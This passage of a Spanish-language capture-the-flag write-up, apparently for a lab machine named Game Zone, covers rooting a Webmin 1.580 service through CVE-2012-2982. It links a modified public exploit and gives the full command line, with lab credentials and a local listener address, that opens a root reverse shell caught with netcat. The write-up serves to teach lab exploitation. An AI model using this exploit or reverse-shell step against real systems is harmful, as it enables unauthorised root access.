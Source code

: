 # CVE-2012-2982

El servicio se trata de un **Webmin 1.580**, el cual cuenta con una vulnerabilidad conocida como **CVE-2012-2982**.

![27]

El exploit disponible para explotar esta vulnerabilidad nos permitirá obtener una reverse shell como el usuario root si es que este usuario está corriendo el servicio. Si lo analizamos, veremos que cuenta con varias áreas de oportunidad, razón por la cual me tomé la libertad de tomar el [exploit original](https://github.com/OstojaOfficial/CVE-2012-2982) y mejorarlo para que la explotación sea más intuitiva.

Mi versión la puedes encontrar en este [repositorio](https://github.com/blu3ming/CVE-2012-2982), y en el **README** podrás encontrar todos los cambios que se realizaron (sería poco útil enunciar los cambios aquí).

Si ejecutamos únicamente el exploit, veremos que el mismo nos indica el órden de los datos de entrada que requiere. Este necesita la IP, el usuario del Webmin, la contraseña, la IP local donde enviará la reverse shell y, por supuesto, el puerto.

![28]

La IP del servicio, recordemos, es nuestro localhost (ya que hicimos el port forwarding y el puerto que corre en nuestra máquina es el mismo que en el servidor). Le damos al script los datos necesarios y lo ejecutamos, recordando poner primero una consola con netcat a la escucha.

    python exploit.py localhost agent47 videogamer124 10.13.14.131 443

![29]

Cuando ejecutamos el exploit, veremos que recibimos una consola en nuestro netcar, habiendo ganado acceso al sistema como root y pudiendo enumerar la flag de este usuario privilegiado.

![30]

[1]:/assets/images/gamezone/1.png
[2]:/assets/images/gamezone/2.png
[3]:/assets/images/gamezone/3.png
[4]:/assets/images/gamezone/4.png
[5]:/assets/images/gamezone/5.png
[6]:/assets/images/gamezone/6.png
[7]:/assets/images/gamezone/7.png
[8]:/assets/images/gamezone/8.png
[9]:/assets/images/gamezone/9.png
[10]:/assets/images/gamezone/10.png
[11]:/assets/images/gamezone/11.png
[12]:/assets/images/gamezone/12.png
[13]:/assets/images/gamezone/13.png
[14]:/assets/images/gamezone/14.png
[15]:/assets/images/gamezone/15.png
[16]:/assets/images/gamezone/16.png
[17]:/assets/images/gamezone/17.png
[18]:/assets/images/gamezone/18.png
[19]:/assets/images/gamezone/19.png
[20]:/assets/images/gamezone/20.png
[21]:/assets/images/gamezone/21.png
[22]:/assets/images/gamezone/22.png
[23]:/assets/images/gamezone/23.png
[24]:/assets/images/gamezone/24.png
[25]:/assets/images/gamezone/25.png
[26]:/assets/images/gamezone/26.png
[27]:/assets/images/gamezone/27.png
[28]:/assets/images/gamezone/28.png
[29]:/assets/images/gamezone/29.png